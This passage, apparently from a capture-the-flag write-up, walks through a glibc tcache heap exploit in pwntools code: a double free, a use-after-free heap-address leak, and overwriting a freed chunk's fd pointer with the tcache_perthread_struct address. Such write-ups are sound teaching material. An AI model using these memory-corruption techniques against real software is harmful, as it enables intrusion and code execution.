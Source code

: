 Now, moving on, we allocate the 2 chunks, one for the tcache and second to not let the coalesce of the chunks. Now, we move on:-

```py
create(0x100)  # Chunk 1
create(0x18)   # Chunk 2
```

Now, we double free the chunks:-

```py
delete(0)
delete(0)
```

At this time, when we see the chunk having it `fd` populated with the address same as of chunk 1.

![](img/double_free.png)

We use the Use After Free to get the heap address, since chunk 1 `fd` points to the chunk itself, `show(0)` will print it's content, printing the heap address.

```py
show(0)
p.recvuntil(": ")
heap_addr = u64(p.recvline().strip().ljust(8, b"\x00")) - 0x10
tcache_head = heap_addr - 0x188
log.info("HEAP:    0x%x" %(tcache_head))
```

Now, we create a chunk, this will give back the chunk 1 address, now, we have the ability to overwrte the chunk 1's `fd` pointer, we overwrite it with the `tcache_perthread_structure` address of that process.

```py
create(0x100)  # Chunk 3
edit(2, p64(tcache_head))
```
